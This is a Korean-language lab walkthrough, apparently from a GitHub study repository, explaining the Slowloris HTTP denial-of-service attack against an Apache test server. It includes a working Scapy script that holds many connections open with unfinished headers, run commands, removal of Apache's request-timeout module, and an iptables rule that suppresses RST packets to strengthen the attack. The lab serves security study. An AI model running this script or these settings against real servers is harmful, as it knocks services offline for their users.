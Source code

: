 
# Slowloris Attack

<center><img src= "https://user-images.githubusercontent.com/76420201/106358354-14f37d80-634f-11eb-8a36-f352cb8d201c.png"></center>

**Slowloris Attack** : 웹 서버의 다수의 커넥션 연결 후 각 커넥션 별로 비정상 HTTP헤더 (완료되지 않는 헤더)를 전송함으로써 웹 서버 단의 커넥션 자원을 고갈 시키는 공격

- HTTP Header 정보를 비정상적으로 조작하여 웹서버가 온전한 Header정보가 올때 까지 기다리도록 한다.

- 서버가 연결 상태를 유지할 수 있는 가용자원은 한계가 있으므로 임계치를 넘어가면 다른 정상적인 접근을 거부하게 된다.

<br>

## Slowloris Attack 공격 원리

1. HTTP에선 헤더의 끝을 /r/n 이라는 개행문자를 구분한다.
2. 공격자(Attacker)는 이 마지막 문자를 보내지 않고 지속적으로 의미없는 변수를 추가한다.
3. 서버는 헤더 정보가 아직 전송 중이라고 인식하고 연결을 유지한다.
4. timer가 만료되기전에 불완전한 HTTP 요청을 반복적으로 수행하면서 client connection의 최대 수용가능한 수까지 도달하여 서버의 connection 자원을 고갈시킨다.

<br>

## Slowloris Attack 공격 순서

**Step 1. Victim 가상머신에서 네트워크 상태를 모니터링**

```
┌──(kali㉿kali)-[/var/www/html/bWAPP]
└─$ watch "netstat -pant"  
```

![slowloris](https://user-images.githubusercontent.com/76420201/105925447-8ac3c480-6083-11eb-9d32-a8c568352850.gif)


netstat [option]

-p	: 해당 프로토콜을 사용하고 있는 프로그램을 표시<br>
-a	: 모든 연결 및 수신 대기 포트 표시<br>
-n	: 주소나 포트 형식을 숫자로 표현<br>
-t	: TCP로 연결된 포트를 표시<br>

<br>

---

**Step 2. Attacker 에서 브라우저로 Victim의 아파치로 접속**

![slowloris0](https://user-images.githubusercontent.com/76420201/106067998-21a38600-6143-11eb-91ae-2e60f826c0fe.jpg)

|STATE| 의미|
|-|-|
|LISTEN 	|	서버의 데몬이 떠 있어서 클라이언트의 접속 요청을 기다리고 있는 상태 (LISTENING)|
|SYN_RECV | 서버가 클라이언트로부터 접속 요구SYN)를 받아 클라이언트에게 응답(SYN/ACK)를 보낸 상태|
|ESTABLISHED |	서버와 클라이언트 간에 세션 연결이 성립되어 통신이 이루어지고 있는 상태 |
|FIN_WAIT1|	클라이언트가 서버에게 연결을 끊고자 요청하는 상태|
|FIN_WAIT2|	서버가 클라이언트로부터 연결 종료 응답을 기다리는 상태|
|LAST_ACK |	호스트가 원격지 호스트의 연결 종료 요구 승인을 기다리는 상태 |
|TIME_WAIT|	연결이 종료되었지만 당분간 소켓을 열어 놓은 상태|

<br>

---

**Step 3. Attacker 가상머신에서 Slowloris.py를 생성**

```
┌──(kali㉿kali)-[~]
└─$ cd      
```

```
┌──(kali㉿kali)-[~]
└─$ code slowloris.py
```

<br>

- 파이썬 파일을 작성후 저장

```
# python3 slowloris.py TARGET_IP TARGET_PORT NO_OF_GETS
#                      공격대상웹서버주소 공격대상웹서버서비스포트 동시공격개수
# 파라미터의 개수를 확인
if len(sys.argv) != 4:
    print("Invalid Parameter")
    sys.exit(1)

# 입력 파라미터를 변수에 할당
target_ip = sys.argv[1]
target_port = int(sys.argv[2])
no_of_gets = int(sys.argv[3])

# IP 설정
ip = IP()
ip.dst = target_ip

# 동시공격회수에 맞춰서 3 way handshaking 및 완료되지 않은 HTTP 요청을 전송
for s in range(0, no_of_gets):
    tcp = TCP()
    tcp.dport = target_port                       # 연결 요청(SYN)
    tcp.sport = RandNum(1024, 65535)
    tcp.flags = 'S'

    syn = ip / tcp
    syn_ack = sr1(syn)                            # 연결 승락(SYN/ACK) 

    get = "GET / HTTP/1.1\r\nHost: " + target_ip  # 요청 헤더가 완료되지 않은 HTTP 요청
                                                  # GET / HTTP/1.1↳
                                                  # Host: 192.168.94.133   ⇐ 개행문자가 누락
    ack_get = ip                            \     # 연결 승락 확인(ACK) 및 요청(GET)을 전달
            / TCP(dport=target_port,        \     
                  sport=syn_ack[TCP].dport, \
                  flags="A",                \
                  seq=syn_ack[TCP].ack,     \
                  ack=syn_ack[TCP].seq+1)   \
            / get
    print(ack_get.summary())
    sr1(ack_get)
```

<br>

- 파이썬 파일 실행

```
┌──(kali㉿kali)-[~]
└─$ sudo python3 slowloris.py victim 80 1000
```

![slowloris1](https://user-images.githubusercontent.com/76420201/106069982-f327aa00-6146-11eb-90d4-a52f246b57c3.jpg)

<br>

---

**Step 4. Victim 가상머신에서 패킷 정보, 웹 서버 상태 정보, 네트워크 상태 정보를 확인**

- Attacker에서 다수의 연결이 수립 (SYN -> SYN/ACK -> ACK)
![slowloris11](https://user-images.githubusercontent.com/76420201/106214499-3bf86500-6212-11eb-87e8-e7f6051c64d1.gif)<br>

- 요청 헤더가 끝나지 않은 상태로 전달된 것과 408 Request Timeout 응답이 반환된 것을 확인
![slowloris12](https://user-images.githubusercontent.com/76420201/106214500-3d299200-6212-11eb-8122-757c2c106afd.gif)<br>

- http://localhost/server-status 페이지에서 R(Reading Request) 상태의 연결이 다수 유지되고 있는 것을 확인
<img src = "https://user-images.githubusercontent.com/76420201/106214502-3dc22880-6212-11eb-8c9f-877b571072ba.gif" width = "50%"><br>

- 특정 호스트(Attacker)의 다수 포트와 연결이 유지되고 있는 것을 확인
<img src = "https://user-images.githubusercontent.com/76420201/106070606-1d2d9c00-6148-11eb-8e7f-c68710e17275.jpg" width = "70%"><br>

<br>

---

**Step 5. Victim 가상머신에서 Request Timeout 모듈을 제거 후 아파치를 재실행**

Slowloris 공격은 Timeout이 일어나기 전에 반복해서 보내는 것인데 현재 웹서버에서 처리하는 Request Timeout이 더 빨리 처리되기 때문에 테스트를 위해서 Request Timeout 모듈을 제거하고 확인해 봅니다.

```
┌──(kali㉿kali)-[~]
└─$ cd /etc/apache2/mods-enabled 
                                                        
┌──(kali㉿kali)-[/etc/apache2/mods-enabled]
└─$ sudo rm -rf reqtimeout.*
                                                        
┌──(kali㉿kali)-[/etc/apache2/mods-enabled]
└─$ sudo service apache2 restart
```

<br>

---

**Step 6. 다시 공격을 시도하면 해당 웹 페이지로 접속되지 않는 것을 확인**

http://localhost/server-status 접속되지 않음을 확인 -> 공격이 정상적으로 이루어 짐

![slowloris15](https://user-images.githubusercontent.com/76420201/106218505-bf1db900-621a-11eb-939f-733a9fc31f82.gif)


<br>

---

```tip
공격이 원활히 진행되지 않는 경우 Attacker 가상머신의 iptables 설정을 확인
효율적으로 공격이 진행될 수 있도록 RST 패킷이 외부로 전달되지 않도록 설정 

`└─$ sudo iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP`
```
```
┌──(kali㉿kali)-[~]
└─$ sudo iptables -L

[sudo] password for kali: 
Chain INPUT (policy ACCEPT)
target     prot opt source              destination         

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
DROP       tcp  --  anywhere             anywhere             tcp flags:RST/RST
                                          
```
